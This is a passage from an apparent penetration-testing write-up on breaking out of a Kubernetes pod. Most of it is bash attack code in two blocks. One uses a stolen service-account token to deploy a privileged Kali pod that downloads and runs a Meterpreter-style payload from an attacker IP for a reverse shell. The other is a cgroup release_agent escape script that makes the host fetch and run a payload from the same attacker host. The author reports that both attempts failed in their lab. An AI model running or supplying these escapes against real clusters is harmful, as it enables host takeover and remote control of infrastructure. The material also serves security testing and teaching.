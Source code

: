 So, here wo donot have enough permissions and a result we cannot create a new pod from within this pod by calling the API. If we had enough permissions by getting simply 'yes' from above query, we could use following to create a pod and at the same listening on the port 4244 to get a reverse shell:

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X POST ${APISERVER}/apis/apps/v1/namespaces/default/deployments -H 'Content-Type: application/yaml' -d '---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: kali-hacker
  namespace: default
spec:
  selector:
    matchLabels:
      app: kali-hacker
  template:
    metadata:
      labels:
        app: kali-hacker
    spec:
      containers:
        - name: dvwa
          image: docker.io/kalilinux/kali-rolling
          command: ["/bin/bash","-c","/usr/bin/apt update -y && /usr/bin/apt install -y curl && /usr/bin/curl -vk http://<attacker_vm_public_ip>:8001/met-kali -o /tmp/met && /usr/bin/chmod 777 /tmp/met && /tmp/met"]
          imagePullPolicy: IfNotPresent
          ports:
            - containerPort: 80
          securityContext:
            privileged: true
      terminationGracePeriodSeconds: 30
'
```

### 2. Release_agent cgroups escape

This exploit needs a cgroup where we can create a release_agent file and trigger release_agent invocation by killing all processes in the cgroup. The easiest way to accomplish that is to mount a cgroup controller and create a child cgroup.

Here, we have tested for both RDMA and Memory cgroup controller which in both case it did not work.

```bash
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

